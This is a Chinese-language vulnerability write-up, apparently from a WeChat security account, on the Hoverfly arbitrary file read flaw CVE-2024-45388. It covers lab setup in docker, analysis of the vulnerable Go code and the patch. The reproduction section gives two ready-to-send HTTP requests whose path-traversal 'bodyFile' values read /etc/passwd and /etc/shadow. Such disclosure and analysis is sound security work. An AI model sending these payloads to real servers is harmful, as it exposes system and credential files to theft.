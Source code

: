 #  Hoverfly 任意文件读取漏洞(CVE-2024-45388)   
原创 标准云  蚁景网络安全   2024-10-12 17:36  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5znJiaZxqldyq3SBEPw0n6hCXNk6PmR3gyPFJDUCibH91GiaAHHKiaCpcsfnQJ2oImQunzubgDtpxzxNHONU88CypA/640?wx_fmt=gif&from=appmsg "")  
  
  
  
## 漏洞简介  
  
Hoverfly 是一个为开发人员和测试人员提供的轻量级服务虚拟化/API模拟/API模拟工具。其 /api/v2/simulation 的 POST 处理程序允许用户从用户指定的文件内容中创建新的模拟视图。然而，这一功能可能被攻击者利用来读取 Hoverfly 服务器上的任意文件。尽管代码禁止指定绝对路径，但攻击者可以通过使用 ../ 段来逃离 hf.Cfg.ResponsesBodyFilesPath 基本路径，从而访问任何任意文件。  
## 环境搭建  
  
我们还是利用 docker 来搭建环境  
  
https://hub.docker.com/r/spectolabs/hoverfly/tags  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZaibicZbH37cmxhebroNxNvVamfsMZonzXicLnrc5rSLC02xBZAsYZr9rw/640?wx_fmt=other&from=appmsg "null")  
  
```
docker pull spectolabs/hoverfly:v1.10.2
docker run -d -p 8888:8888 -p 8500:8500 spectolabs/hoverfly:v1.10.2   
```  
  
‍  
## 漏洞复现  
  
构造数据包  
```
POST /api/v2/simulation HTTP/1.1
Host:127.0.0.1:8888
Accept: application/json, text/plain,*/*
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64)AppleWebKit/537.36(KHTML, like Gecko)Chrome/85.0.4183.83Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8888/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length:126
Content-Type: application/x-www-form-urlencoded

{"data":{"pairs":[{
"request":{},"response":{
"bodyFile":"../../../../../etc/passwd"}}]},"meta":{"schemaVersion":"v5.2"}}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZRV2ZnIfHbH4fVlYVRbQxdJpAKCeNaFficWEPticicFQu98P3Yq1zRb4iaA/640?wx_fmt=other&from=appmsg "null")  
  
  
‍  
```
PUT /api/v2/simulation HTTP/1.1
Host:127.0.0.1:8888
Accept: application/json, text/plain,*/*
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64)AppleWebKit/537.36(KHTML, like Gecko)Chrome/85.0.4183.83Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8888/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length:126
Content-Type: application/x-www-form-urlencoded

{"data":{"pairs":[{
"request":{},"response":{
"bodyFile":"../../../../../etc/shadow"}}]},"meta":{"schemaVersion":"v5.2"}}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZoO1JyvDl6FOKzwrNKASEQEIAu8VyegK8ef9PibiblwE73zpDmtuJ4bfA/640?wx_fmt=other&from=appmsg "null")  
  
## 漏洞分析  
  
hoverfly-1.10.2\core\handlers\v2\simulation_handler.go#RegisterRoutes  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZCZG8kI4zqtfV36jjzawzzVBtTfPxPseCqM2JTx1DbtwSGUecNpOYmw/640?wx_fmt=other&from=appmsg "null")  
  
  
定义了 SimulationHandler 的路由注册方法，路由的每个 HTTP 方法（如 GET、PUT、POST、DELETE 等）都有一个对应的处理函数 (this.Get、this.Put、this.Post、this.Delete、this.Options、this.GetSchema)。这些函数处理实际的业务逻辑。  
- • GET /api/v2/simulation: 处理获取模拟数据。  
  
- • PUT /api/v2/simulation: 处理更新模拟数据。  
  
- • POST /api/v2/simulation: 处理创建新的模拟数据。  
  
- • DELETE /api/v2/simulation: 处理删除模拟数据。  
  
- • OPTIONS /api/v2/simulation: 提供有关 /api/v2/simulation 端点允许的 HTTP 方法的信息。  
  
- • GET /api/v2/simulation/schema: 获取模拟数据的 schema（结构）。  
  
- • OPTIONS /api/v2/simulation/schema: 提供有关 /api/v2/simulation/schema 端点允许的 HTTP 方法的信息。  
  
‍  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZQgnia6XCzKXYqC9bDLUO7iaflXSnwAVp6u9ED3KticrCX4HIgDGdYKC6w/640?wx_fmt=other&from=appmsg "null")  
  
  
POST 和 PUT 方法 仅仅是函数的第三个参数有所不同，所以两种请求方式都可以实现任意文件读取  
  
hoverfly-1.10.2\core\handlers\v2\simulation_handler.go#addSimulation  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZlymv4fprpciaCeON3rmAia6fDFIzrtG9Gx2EvNfUKGB0s9AF36hVgQsQ/640?wx_fmt=other&from=appmsg "null")  
  
  
第三个参数的不同导致 PUT 方法在获取新的模型内容时，首先删除前一个模拟内容，可以重复读取不同文件内容。POST 仅仅只能读取一次文件内容，无法更新。  
  
hoverfly-1.10.2\core\hoverfly_service.go#PutSimulation  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZqQVR7Kicf5ibzVDh62UdasNGI9ibibictvibsOb3KcxwT6hRXg7mbPopKkJw/640?wx_fmt=other&from=appmsg "null")  
  
  
hoverfly-1.10.2\core\hoverfly_service.go#putOrReplaceSimulation  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZIThdTRfjKkVN9JhibyTlb5aoHfqfonwdNZBVHGOwibdelI1yEniax7Wyw/640?wx_fmt=other&from=appmsg "null")  
  
  
hoverfly-1.10.2\core\hoverfly_funcs.go#readResponseBodyFiles  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZVURIw08bQiciaNHfSzATtv8TLt3owz9gBPCtcclLUohUX8XS6tUyafEw/640?wx_fmt=other&from=appmsg "null")  
  
  
hoverfly-1.10.2\core\hoverfly_funcs.go#readResponseBodyFile  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZ9kp3zMoldKXauticy3q62MSwmibfmibWetJa5NR9Ziavicg6g4BMyAqKzGQ/640?wx_fmt=other&from=appmsg "null")  
  
  
这里就是漏洞产生的关键原因，对传入的参数 filePath 没有做具体的校验，可以通过 ../ 实现跨越目录的读取文件  
  
我们看到最新版已经对传入的参数进行了处理  
  
hoverfly-1.10.4\core\hoverfly_funcs.go#readResponseBodyFile  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZo4tA2FzymufuxoUXefSwib9pXYAZdRDicCpzy6lwySK2I2dfeOCxE72g/640?wx_fmt=other&from=appmsg "null")  
  
  
hoverfly-1.10.4\core\util\util.go#ResolveAndValidatePath  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZW1ib64wFV9cW0pm5DM1wtukPv22jP5EvRlD5EmORYtVp3ZmMpZJxBOw/640?wx_fmt=other&from=appmsg "null")  
  
  
这个 ResolveAndValidatePath 函数用于从一个绝对路径（absBasePath）解析一个相对路径（relativePath），并验证这个相对路径是否合法。具体来说，它确保了相对路径不会尝试向上回溯（使用 ".."），并且解析后的路径仍然在基路径之下。  
  
[](http://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247549615&idx=1&sn=5de0fec4a85adc4c45c6864eec2c5c56&chksm=c160f8e6f61771f0fec6a865b8f6f645128bd3f48035546980afeebcc974b4f76538c7561d55&scene=21#wechat_redirect)  
  
  
